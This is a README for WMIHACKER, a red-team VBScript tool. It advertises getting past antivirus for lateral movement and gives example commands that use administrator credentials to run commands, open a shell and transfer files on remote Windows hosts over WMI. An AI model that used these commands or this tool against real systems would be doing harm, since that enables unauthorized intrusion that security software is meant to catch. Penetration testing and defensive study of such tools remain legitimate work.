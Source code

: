 # WMIHACKER（No need 445 Port）
[中文版(Chinese version)](README_zh.md)

> Contact: _xiangshan(Wechat)

> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!


Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）

Introduction: The common WMIEXEC, PSEXEC tool execution command is to create a service or call Win32_Process.create, these methods have been intercepted by Anti-virus software 100%, so we created WMIHACKER (Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）).

Main functions: 1. Command execution; 2. File upload; 3. File download

## How to use
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

The result is displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

No results are displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

shell mode

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

File upload: copy the local calc.exe to the remote host c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

File download: Download the remote host calc.exe to the local c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `


## 404Starlink
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER has joined [404Starlink](https://github.com/knownsec/404StarLink)
